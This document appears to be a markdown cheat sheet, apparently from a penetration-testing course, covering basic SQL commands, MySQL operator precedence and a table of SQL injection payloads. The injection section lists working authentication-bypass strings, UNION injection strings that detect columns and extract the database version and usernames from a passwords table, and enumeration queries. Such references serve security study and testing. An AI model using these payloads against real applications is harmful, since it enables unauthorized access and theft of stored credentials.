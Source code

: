 | **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |